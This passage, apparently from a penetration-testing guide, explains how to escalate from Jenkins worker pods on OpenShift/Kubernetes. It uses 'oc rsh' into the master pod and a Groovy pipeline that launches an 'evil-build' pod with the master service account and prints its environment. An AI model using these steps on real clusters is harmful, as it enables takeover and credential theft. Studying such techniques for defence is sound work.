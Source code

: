 
If this sa has enough permission (such as pod/exec), you can also take control of the whole jenkins instance by executing commands inside the master node pod, if it's running within the same namespace. You can easily identify this pod via its name and by the fact that it must be mounting a PVC (persistant volume claim) used to store jenkins data.

```bash
oc rsh pod_name -c container_name
```

In case the master node pod is not running within the same namespace as the workers you can try similar attacks by targetting the master namespace. Let's assume its called _jenkins-master_. Keep in mind that serviceAccount master-sa needs to exist on the _jenkins-master_ namespace (and might not exist in _worker-ns_ namespace)

```groovy
pipeline { 
    stages {
        stage('Process pipeline') {
            agent {
                kubernetes {
                yaml """
                	metadata:
                		namespace: jenkins-master
                    spec:
                    	serviceAccount: master-sa                 
                        containers:
                        - name: evil-build
                          image: myregistry/mykali_image:1.0
                          imagePullPolicy: IfNotPresent
                          command:
                          - sleep
                          args:
                          - 1d
                """
                }
            }
            stages {
                stage('Say hello') {
                    steps {
                        echo 'Hello from a docker container'
                        sh 'env'
                    }
                }
            }
        }
    }
}




